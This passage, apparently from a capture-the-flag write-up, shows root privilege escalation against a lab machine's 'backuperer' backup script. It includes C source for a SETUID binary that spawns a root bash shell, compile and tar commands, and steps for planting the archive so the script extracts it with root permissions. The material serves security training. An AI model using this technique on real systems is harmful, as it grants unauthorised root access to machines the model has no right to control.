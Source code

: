 So where is the flaw here?

We could take advantage of the 30 second `sleep` command to inject our own code into the newly created archive. This will let us do something like replace `robots.txt` with a symlink to `/root/root.txt`. While this would get us the flag, it won't get us a root shell, which I'm what I'm after.

### Exploiting `backuperer` with a SETUID binary

What we can do instead is take advantage of the fact that `tar` will extract items while maintaining permissions. Also, we can exploit the fact that if the `integrity_check` fails, it leaves the extracted directory in place. 

First, we need to create a mock `/var/www/html` directory locally, with a `SETUID` binary inside.

`mkdir -p /var/www/html` to make the mock directory.

Use the below code to create `setuid.c` in the mock directory:

```c
int main(void){
    setresuid(0,0,0);
    system("/bin/bash");
}
```

Now we compile the code with `gcc -m32 -o setuid setuid.c`.

>NOTE: If you use Kali in a VM, with a shared direcotry, you'll have to move the direcotry to something like `/tmp`. Otherwise, the SETUID bit will not set, as the group owning the folder is still `Vbox`.

Once that's all set, we need to create our own `tar` archive of the mock directory with `tar zcvf h4x.tar.gz var`

```shell
root@kali:/tmp# tar zcvf h4x.tar.gz var
var/
var/www/
var/www/html/
var/www/html/setuid
```

Now we can download it to our target with `wget` as before, and copy it to the `/var/tmp` directory.

From here, we just need to wait for the `backuperer` script to trigger. You can check it's next execution time with `systemctl list-timers`, or just run `ls -la` again until you see the randomly named tar archive, as below.
